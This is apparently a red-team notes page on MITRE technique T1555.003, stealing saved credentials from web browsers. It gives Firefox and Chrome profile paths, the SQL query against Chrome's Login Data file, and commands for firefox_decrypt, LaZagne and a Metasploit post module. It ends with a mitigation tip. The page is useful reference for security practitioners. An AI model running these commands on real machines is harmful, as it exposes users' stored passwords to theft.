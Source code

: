 ```yaml
---
description: https://attack.mitre.org/techniques/T1555/003/
---
```


# Credentials from Web Browsers

**ATT\&CK ID:** [T1555.003](https://attack.mitre.org/techniques/T1555/003/)

**Permissions Required:** <mark style="color:green;">**User**</mark>

**Description**

\
Adversaries may acquire credentials from web browsers by reading files specific to the target browser.[\[1\]](https://blog.talosintelligence.com/2018/02/olympic-destroyer.html) Web browsers commonly save credentials such as website usernames and passwords so that they do not need to be entered manually in the future. Web browsers typically store the credentials in an encrypted format within a credential store; however, methods exist to extract plaintext credentials from web browsers.

For example, on Windows systems, encrypted credentials may be obtained from Google Chrome by reading a database file, `AppData\Local\Google\Chrome\User Data\Default\Login Data` and executing a SQL query: `SELECT action_url, username_value, password_value FROM logins;`. The plaintext password can then be obtained by passing the encrypted credentials to the Windows API function `CryptUnprotectData`, which uses the victim’s cached logon credentials as the decryption key.[\[2\]](https://docs.microsoft.com/en-us/windows/desktop/api/dpapi/nf-dpapi-cryptunprotectdata)

Adversaries have executed similar procedures for common web browsers such as FireFox, Safari, Edge, etc.[\[3\]](https://www.proofpoint.com/us/threat-insight/post/new-vega-stealer-shines-brightly-targeted-campaign)[\[4\]](https://www.fireeye.com/blog/threat-research/2017/07/hawkeye-malware-distributed-in-phishing-campaign.html) Windows stores Internet Explorer and Microsoft Edge credentials in Credential Lockers managed by the [Windows Credential Manager](https://attack.mitre.org/techniques/T1555/004).

Adversaries may also acquire credentials by searching web browser process memory for patterns that commonly match credentials.[\[5\]](https://github.com/putterpanda/mimikittenz)

## Techniques

## Firefox

### Firefox Profile Locations

```bash
# Linux
/home/<Username>/.mozilla/firefox/xxxx.default

# MacOS
/Users/<Username>/Library/Application\ Support/Firefox/Profiles/xxxx.default'

# Windows
C:\Users\<Username>\AppData\Roaming\Mozilla\Firefox\Profiles\xxxx.default
```

### Firefox\_decrypt

**Github:** [https://github.com/unode/firefox\_decrypt](https://github.com/unode/firefox\_decrypt)

```bash
python3 firefox_decrypt.py <ProfileFolder>
```

![](<../../../../.gitbook/assets/image (350).png>)

### LaZagne

```
laZagne.exe browsers browsers
```

## Google Chrome

### Chrome Profile Location

```bash
# Linux
/home/<Username>/.config/google-chrome/default

# MacOS
Users/<Username>/Library/Application Support/Google/Chrome/Default

# Windows
C:\Users\<Username>\AppData\Local\Google\Chrome\User Data\Default
```

### LaZagne

```
laZagne.exe browsers browsers
```

### Metasploit

```
use post/windows/gather/enum_chrome
```

![](<../../../../.gitbook/assets/image (1153).png>)

After completion, open the decrypted data file as mentioned by `Metasploit`.

![](<../../../../.gitbook/assets/image (1386).png>)

## Mitigation

### Disable password manager in multiple browsers

[Dashlane](https://www.dashlane.com/) have an excellent article on methods to disable the password manager for multiple browsers via Group Policy.

{% embed url="https://support.dashlane.com/hc/en-us/articles/360012461279-Disable-Chrome-Edge-Firefox-IE-password-managers-via-GPO" %}

### &#x20;<a href="#ie" id="ie"></a>
